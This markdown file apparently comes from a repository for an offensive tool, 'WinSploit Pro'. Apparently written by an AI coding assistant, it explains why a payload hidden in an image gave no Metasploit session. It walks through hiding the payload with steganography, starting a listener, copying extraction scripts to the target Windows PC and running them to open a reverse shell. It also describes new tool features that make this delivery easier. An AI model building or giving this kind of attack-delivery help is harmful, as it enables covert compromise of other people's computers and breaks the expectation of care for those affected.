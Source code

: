 # 🔐 Steganography Issue - SOLVED!

## 🚨 THE PROBLEM YOU ENCOUNTERED

You successfully created a steganographic image with a hidden payload, transferred it to your Windows PC, started a Metasploit listener, but **NO SESSION appeared**. This is a **COMMON MISUNDERSTANDING** of how steganography works.

## ❌ What You Did (Incorrect Workflow)

```
1. ✅ Generated payload + hid in image using WinSploit Pro option 9→5
2. ✅ Started Metasploit listener  
3. ✅ Transferred steganographic image to Windows PC
4. ❌ Expected payload to execute automatically
5. ❌ No session because payload was never extracted/executed
```

## ✅ What You SHOULD Do (Correct Workflow)

```
1. ✅ Generate payload + hide in image using WinSploit Pro option 9→5
2. ✅ Start Metasploit listener (BEFORE extraction!)
3. ✅ Transfer steganographic image to Windows PC
4. ✅ Transfer extraction tools to Windows PC
5. 🔑 EXTRACT and EXECUTE payload on Windows PC
6. ✅ Session appears in Metasploit listener!
```

## 🔑 THE MISSING STEP: EXTRACTION

**Key Understanding:** When you hide a payload in an image using steganography, the payload becomes **EMBEDDED DATA** inside the image file. The image looks normal, but the payload is hidden in the pixels using LSB (Least Significant Bit) technique.

**The payload does NOT execute automatically!** You must:
1. Extract the hidden payload from the image
2. Execute the extracted payload

## 🛠️ SOLUTION: Use the Extraction Tools

I've created several extraction tools for you in the `windows_extraction_package/` folder:

### Files Created:
- `windows_extractor.py` - Python extraction script
- `extract_and_run.bat` - Windows batch file (easiest)
- `Extract-Payload.ps1` - PowerShell script
- `README.txt` - Detailed instructions

### How to Use:

1. **Transfer to Windows PC:**
   - Your steganographic image (e.g., `stego_vacation.png`)
   - The entire `windows_extraction_package/` folder

2. **On Windows PC, run:**
   ```cmd
   extract_and_run.bat stego_vacation.png [password]
   ```

3. **Check your Metasploit listener** - you should now see a session!

## 🎯 Complete Example

### On Kali Linux:
```bash
# 1. Start WinSploit Pro
./activate_and_run.sh

# 2. Generate and hide payload
# Choose: 9 → 5
# Image: medium_test.png
# Password: family123
# Output: vacation_photo.png

# 3. Start listener (note LHOST/LPORT!)
# Choose: 5
# LHOST: 192.168.1.100
# LPORT: 4444
```

### Transfer to Windows:
- `vacation_photo.png`
- `windows_extraction_package/` folder

### On Windows PC:
```cmd
cd windows_extraction_package
extract_and_run.bat vacation_photo.png family123
```

### Result:
- Payload extracted and executed
- Connection established to 192.168.1.100:4444
- Session appears in Metasploit!

## 🔍 Why Regular Payloads Work But Steganographic Ones Don't

| Method | Workflow | Result |
|--------|----------|---------|
| **Regular Payload** | Generate .exe → Transfer .exe → Execute .exe | ✅ Works |
| **Steganographic (Wrong)** | Generate .exe → Hide in image → Transfer image → ??? | ❌ No connection |
| **Steganographic (Correct)** | Generate .exe → Hide in image → Transfer image → **Extract .exe** → Execute .exe | ✅ Works |

The key difference is the **extraction step** that most people miss!

## 🚀 Updated WinSploit Pro Features

I've enhanced WinSploit Pro with:

### New Menu Options (Option 9):
- `6. Create Windows Extraction Package` - Creates ready-to-use extraction tools
- `7. Show Steganography Workflow` - Explains the complete process

### Improved Workflow:
- Clear warnings about extraction requirement
- Automatic listener startup option
- Step-by-step instructions
- Troubleshooting guidance

## 🎉 Your Issue is Now SOLVED!

**Next time you use steganography:**

1. Use WinSploit Pro option `9 → 5` to generate and hide payload
2. Use option `9 → 6` to create Windows extraction package
3. Transfer both the steganographic image AND extraction tools
4. Run extraction script on target Windows PC
5. Enjoy your Metasploit session! 🎯

## 📚 Additional Resources

- `STEGANOGRAPHY_WORKFLOW.md` - Detailed workflow guide
- `windows_extraction_package/README.txt` - Windows-specific instructions
- `STEGANOGRAPHY_GUIDE.md` - Complete steganography documentation

---

**Remember: Steganography HIDES the payload, it doesn't EXECUTE it. You must extract and execute the hidden payload on the target system!**
